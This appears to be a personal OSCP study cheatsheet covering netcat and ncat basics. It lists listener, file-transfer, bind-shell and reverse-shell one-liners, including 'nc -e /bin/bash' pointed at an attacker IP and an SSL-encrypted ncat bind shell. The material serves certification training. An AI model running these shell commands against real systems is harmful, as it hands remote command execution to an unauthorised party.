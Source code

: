 # OSCP cheatsheet
Cheatsheet for my OSCP labs / exam.

# Index

- [Introduction](#introduction) 

# Content

### ============================================================
### Introduction
### ============================================================


### ============================================================
### Essential Tools
### ============================================================

**Netcat**  
Basics
```bash
nc -nlvp [port]          # set up listener
nc -nv [IP] [port]       # banner grabbing OR connect to remote port
```
File Transfer
```bash
nc -nlvp [port] > incoming.exe          # VIC: set up listener, direct data to incoming.exe
nc -nv [IP] [port] < /path/to/wget.exe  # ATT: push wget.exe file to VIC
```
Bind Shell: bind executable (e.g. cmd.exe) to a local port (typically victim machine)
```bash
nc -nlvp [port] -e cmd.exe  # VIC: set up listener + bind cmd.exe to local port
nc -nv [VIC IP] [port]   # ATT: attacker connects and is presented with cmd prompt
```
Reverse Shell: victim box connect to attacker box
```bash
nc -nvlp [port]                       # ATT: attacker set up listener
nc -nv [ATT IP] [port] -e /bin/bash   # VIC: attacker sends reverse shell to their box
```

**Ncat**  
Ncat is an improved version of the Netcat tool, with SSL encryption + ability to whitelist access to specific IP's.

Secure Bind Shell:
```bash
ncat -lvp 4444 -e cmd.exe --allow [IP] --ssl   # Box A: set up listener, allow on connections from only IP, SSL-encrypted.
ncat -v 10.11.14.143 4444 --ssl                # Box B: connect to Box A, SSL-encrypted.
```







